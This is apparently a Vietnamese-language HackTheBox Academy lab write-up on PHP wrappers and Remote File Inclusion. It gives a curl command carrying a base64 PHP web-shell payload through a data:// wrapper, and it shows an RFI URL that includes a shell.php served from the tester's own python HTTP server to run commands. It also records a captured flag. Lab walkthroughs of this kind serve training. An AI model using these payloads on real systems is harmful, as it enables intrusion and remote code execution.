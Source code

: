 # HackTheBox_academy

# Bài này ta làm quen với PHP wrappers để lấy RCE

![image](https://github.com/user-attachments/assets/5a677965-ba33-4a7d-91f5-c3ea1c648c19)

>curl -s "http://83.136.251.68:31806/index.php?language=data://text/plain;base64,PD9waHA8c2lzdGVtKCRfR0VUWVJbYWJ0aXJkXSk7ID8%3D&cmd=ls%20/"


![Screenshot 2025-04-18 221659](https://github.com/user-attachments/assets/cdbed38b-0321-48f0-9a4e-1cba00020db4)

![Screenshot 2025-04-18 221851](https://github.com/user-attachments/assets/d71d3a31-f92c-4333-bc9f-affe40c100d5)

Đọc file .txt ta được flag 

![Screenshot 2025-04-18 221938](https://github.com/user-attachments/assets/1922a5fd-c1f8-4db4-9d6e-9d9698ebf59c)



# Remote File Inclusion(RFI)

![image](https://github.com/user-attachments/assets/5ba667c6-a125-4f82-b2bf-bb5e84c5640b)


![Screenshot 2025-04-21 010317](https://github.com/user-attachments/assets/2e2e3a45-60a4-4a27-bc48-b34b10b5146c)

Ta thử kiểm tra xem trang web có bị RFI không bằng cách thêm 1 đường dẫn như sau http://10.129.86.168/index.php?language=http://10.129.86.168:80/index.php

![image](https://github.com/user-attachments/assets/6ba21e4b-90ee-4a07-bb4f-5903d7c45db9)

Như chúng ta có thể thấy, trang index.php đã được đưa vào phần dễ bị tấn công, vì vậy trang thực sự dễ bị tấn công RFI, vì chúng ta có thể đưa vào URL, hơn nãy ta thấy khi ta đưa vào trang index.php thì nó không hiện thị dưới dạng mã nguồn mà hiển thị dưới dạng thực thi và hiện thị dưới dạng php, Có nghĩa là PHP trên máy chủ vẫn thực thi code trong file đó, chứ không hiển thị ra nội dung file. Điều này cho phép chúng ta thực thi mã nếu chúng ta đưa vào một tệp lệnh php độc hại.

Tạo một tệp độc hại bằng php

![image](https://github.com/user-attachments/assets/ae958046-7493-493b-8ee6-afd46379574b)

Bây giờ, chúng ta có thể khởi động một máy chủ trên máy của mình bằng máy chủ python cơ bản bằng lệnh sau:

> python3 -m http.server 8080

Bây giờ chúng ta có thể inclusion shell cục bộ của mình thông qua RFI bằng đường dẫn như sau

> http://10.129.86.168/index.php?language=http://10.10.15.4:8080/shell.php&cmd=ls /

![image](https://github.com/user-attachments/assets/76c9a99b-6c8b-409c-8d6f-28ed9f29c262)

![Screenshot 2025-04-21 014108](https://github.com/user-attachments/assets/47a26e3f-2f58-4b43-9173-597a5f6156eb)

Flag : 99a8fc05f033f2fc0cf9a6f9826f83f4 

Ngoài ra ta có thể sử dụng ftp:// , điều này cũng có thể hữu ích trong trường hợp cổng http bị chặn bởi tường lửa hoặc http://chuỗi bị chặn bởi WAF




























